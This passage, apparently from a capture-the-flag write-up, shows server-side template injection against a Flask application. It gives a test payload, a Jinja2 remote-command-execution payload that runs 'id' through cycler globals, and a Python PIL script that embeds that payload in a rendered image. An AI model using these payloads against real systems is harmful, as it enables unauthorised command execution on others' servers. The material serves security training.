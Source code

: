 Since the application is flask, first thing I tried is template injection. I have used simple payload 

```
{7*7}
```

In below image we can see that it retrun the 49.

![late-4.png](/assets/img/late/late-4.png)


## RCE
To get the command execution I used the following payload.

```
{% raw %}
{{cycler.__init__.__globals__.os.popen('id').read()}}
{% endraw %}
```

```python
from PIL import Image, ImageDraw, ImageFont

def getSize(txt, font):
    testImg = Image.new('RGB', (1, 1))
    testDraw = ImageDraw.Draw(testImg)
    return testDraw.textsize(txt, font)

if __name__ == '__main__':

    fontname = "RobotoSlab-VariableFont_wght.ttf"
    fontsize = 30
    {% raw %}   
    text = """{{ cycler.__init__.__globals__.os.popen('id').read() }}"""
    {% endraw %}
    
    colorText = "black"
    colorOutline = "red"
    colorBackground = "white"


    font = ImageFont.truetype(fontname, fontsize)
    width, height = getSize(text, font)
    img = Image.new('RGB', (width+100, height+100), colorBackground)
    d = ImageDraw.Draw(img)
```